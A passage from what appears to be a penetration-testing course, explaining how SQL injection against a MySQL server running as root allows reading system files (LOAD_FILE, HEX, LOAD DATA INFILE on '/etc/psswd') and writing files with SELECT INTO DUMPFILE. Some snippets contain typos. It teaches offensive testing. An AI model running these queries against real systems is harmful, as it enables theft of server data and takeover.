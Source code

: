 This means that if an application connects to its database as **root**, exploiting a SQL injection will lead not only to data compromise, but also **full server takeover**.

###### 4.8.2.1. Reading the File System
It is possible to read files by using the **LOAD_FILE** function:
  ```
  SELECT LOAD_FILE('<text file path>');
  ```

To read a binary file you can use it together with the **HEX** function:
  ```
  SELECT HEX(LOAD_FILE('<text file path>'));
  ```

  By using this method, you can convert any binary file to a long hex string that you can use to steal any data from the server.

It is also possible to parse the content of a file and tell MySQL how to distinguish one record from another:
  Example:
    ```
    CREATE TABLE template(output lontext);

    LOAD DATA INFILE '/etc/psswd' INTO TABLE temptable FIELDS TERMINATED BY '\n' (output);
    ```

    The resulting table will look like this:
      ```
      +---------------------------------------+
      | output                                |
      +---------------------------------------+
      | root:x:0:0:root:/root:/bin/bash       |
      | daemon:x:1:1:daemon:/usr/sbin:/bin/sh |
      | bin:x:2:2:bin:/bin:/bin/sh            |
      | sys:x:2:2:sys:/dev:/bin/sh            |
      | ...                                   |
      +---------------------------------------+
      ```

###### 4.8.2.2. Uploading Files
By using **SELECT ... INTO DUMPFILE** statement you can write the results of a query to a file. This can be used to **download a huge query results** via the web application and to **upload penetration tester supplied data** to the server
  ```
  SELECT <fields> FROM <table> INTO DUMPFILE '<output file path>';
  ```

To upload a binary file, you have to find a way to insert its content into a table on the victim machine. Then you can dump the table content to a file on the server file system.

But how?
  You have to convert it into a hex-string.
How?
  By using MySQL !
